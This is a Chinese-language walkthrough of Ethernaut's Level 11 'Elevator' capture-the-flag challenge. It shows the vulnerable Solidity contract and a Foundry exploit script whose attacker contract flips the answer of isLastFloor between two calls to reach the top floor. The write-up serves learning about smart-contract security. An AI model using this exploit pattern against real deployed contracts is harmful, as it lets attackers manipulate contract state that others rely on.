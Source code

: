 # Level 11 - Elevator

## 題目
[Elevator](https://ethernaut.openzeppelin.com/level/0x6DcE47e94Fa22F8E2d8A7FDf538602B1F86aBFd2)

### 通關條件
這台電梯會讓你到不了頂樓對吧？

### 提示
- 有的時候 Solidity 不是很遵守承諾
- 我們預期這個 Elevator(電梯) 合約會被用在一個 Building(大樓) 合約裡

### 合約內容
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```
## 解題
這題的目標是要讓電梯到達頂樓，也就是讓第 9 行的 `top` 等於 true
可以在第 17 行看到 `top` 會透過 `isLastFloor(floor)` 去判斷是否到頂了，而 `isLastFloor(floor)` 在第 5 行寫下它的介面了，這個 function 會接收一個 `uint256` 並回傳 `bool`。所以我們只要實作這個 function 就好了。

但是題目中呼叫 `isLastFloor(floor)` 的地方有兩處，15 行跟 17 行：
```solidity=12
    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
```
`goTo(uint256 _floor)` 的流程：
1. 用 `msg.sender` 建立一個 `Building` 合約
2. 呼叫 `!isLastFloor(_floor)` 做判斷，回傳要是 `False` 才會通過判斷
3. 再次呼叫 `isLastFloor(_floor)`，這次要是 `True` 我們才可以讓 `top = true` 並通關

也就是說，這題的挑戰是如何讓 `isLastFloor(_floor)` 對兩次的呼叫給不同的回應。
其實作法很簡單，只需要多宣告一個狀態變數紀錄上次回傳的值就好；這樣就可以知道下次要換另一個值回傳，攻擊合約如下：
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/11_Elevator.sol";

contract ExploitScript is Script {

    function run() external {
        vm.startBroadcast();

        ElevatorAttacker elevatorAttacker = new ElevatorAttacker();
        elevatorAttacker.attack();

        vm.stopBroadcast();
    }
}

contract ElevatorAttacker {
    Elevator level11 = Elevator(your_challenge_address);
    bool public floor = true;

    function attack() public{
        level11.goTo(0);
    }

    function isLastFloor(uint256 _floor) external returns (bool) {
        floor = !floor;
        return floor;
    }
}
```